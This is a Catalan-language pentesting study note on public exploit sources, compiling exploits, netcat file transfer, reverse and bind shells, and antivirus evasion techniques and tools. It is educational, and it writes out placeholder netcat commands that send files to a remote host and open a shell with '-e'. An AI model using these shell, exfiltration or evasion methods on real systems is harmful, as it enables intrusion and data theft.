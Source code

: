 # Exploiting fundamentals
## Public exploits
Hi ha una gran col·lecció de proves de concepte (PoC) i exploits a Internet. Tanmateix, és important verificar el codi que contenen i comprovar que no hi ha cap backdoor (no intencionat) o altres tipus de malware que ens puguin comprometre. Les principals fonts fiables d'exploits són:
- [Rapid7](https://www.rapid7.com/db/)
- [GitHub](https://github.com/)
- [Exploit-DB](https://www.exploit-db.com/)
També és recomanable anar mirant de tant en tant [Packet Storm](https://packetstorm.news/), un lloc web on es van pujant actualitzacions de vulnerabilitats que es descobreixen i altres notícies relacionades amb aquestes.
##### Fixing exploits
Molts exploits tenen integrats la IP i el port local, o un payload de prova específic que no serveix més enllà que per detectar si el sistema és vulnerable. Per tant, al revisar el codi també s'ha de revisar això i, si s'escau, canviar-ho. 
D'altra banda, depenent del sistema operatiu al qual vulguem executar l'exploit, si està escrit en C, C++, C#... s'ha de tenir en compte que s'ha de compilar, i no és el mateix format per Windows que per Linux. Si no hi ha instruccions de compilació es pot fer de la forma següent:
##### Windows
Amb MinGW-w64 i Wine:
```bash
i686-w64-mingw32-gcc [file] -o [output] # -lws2_32 si el SO és x86
```
##### Linux
```bash
gcc [file] -o [output]
```
> El repositori fet per OffSec [Exploitdb-Bin-Sploits](https://github.com/offensive-security/exploitdb-bin-sploits) és una font fiable d'exploits precompilats.

## Netcat
Netcat és una eina de gestió de connexions de xarxa, tant TCP com UDP. Té moltíssims usos però en l'àmbit del pentesting s'utilitza sobretot per establir consoles interactives entre la màquina víctima i el host atacant i per transferir informació entre aquests. 
Té dos modes:
- **Listener:** obre un port per esperar una connexió.
- **Reciever:** estableix una connexió.
```bash
#File transfer
nc -lvnp [port] > [output_file] # Rebre arxiu
nc -nv [ip] [port] < [input_file] # Enviar arxiu
```
##### Reverse shells
L'atacant es posa en escolta per un port determinat i el host víctima inicia una consola interactiva a la IP atacant. És la forma més comuna d'aconseguir una consola interactiva, tot i que mostri l'adreça de l'atacant.
```bash
nc -lvnp [port] # Atacant en escolta
```
Cada terminal i servei té la seva forma d'entaular una consola interactiva. A la web [RevShells](https://revshells.com) es poden consultar i modificar segons les necessitats.
##### Bind shells
Una bind shell és el procés contrari que la reverse shell però amb el mateix resultat. En aquest cas, és el host víctima el que es posa en escolta en un port determinat per a que l'atacant pugui connectar-se i executar una consola. No es gaire comuna, ja que els sistemes solen tenir per defecte un firewall activat que bloqueja les connexions entrants, sobretot a Windows.
```bash
nc [ip] [port] -e [terminal] # Connectar-se a la màquina víctima
```

## Obfuscation
Molts cops els hosts objectiu estaran protegits per un antivirus que identificara els exploits com a maliciosos i impedirà que s'executin. Els mètodes de detecció dels antivirus es classifiquen en:
- **Signatura:** es compara una seqüència de bytes associada a l'arxiu o les seves connexions amb la base de dades de signatures de programa maliciós de l'antivirus.
- **Heurística:** anàlisi del codi i detecció de patrons maliciosos en comparació amb patrons coneguts d'altre malware.
- **Comportament:** monitorització de l'activitat d'un programa i detecció de connexions o execucions malicioses.
I hi ha tècniques que permeten dificultar la detecció, o fins i tot evadir-la, que es separen en:

**Evasió on-disk**
- Ofuscació: reorganitzar i randomitzar el codi per dificultar el seu anàlisis.
- Codificació: reformatejar el codi en un altre format (hex, base64...)
- Packing: generar un executable diferent a l'original per canviar-li la signatura
- Encriptació: encriptar el exploit i executar-lo juntament amb la clau de desencriptació mitjançant un stub.

**Evasió in-memory**
S'injecta el exploit en la memòria, sense crear cap arxiu i, per tant, costa més de detectar. Normalment s'injecta en un procés legítim amb un thread separat.

Les eines principals que s'utilitzen per aquest propòsit són [shellter](https://github.com/ParrotSec/shellter), [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) i [Ebowla](https://github.com/Genetic-Malware/Ebowla), tot i que n'hi ha moltes més.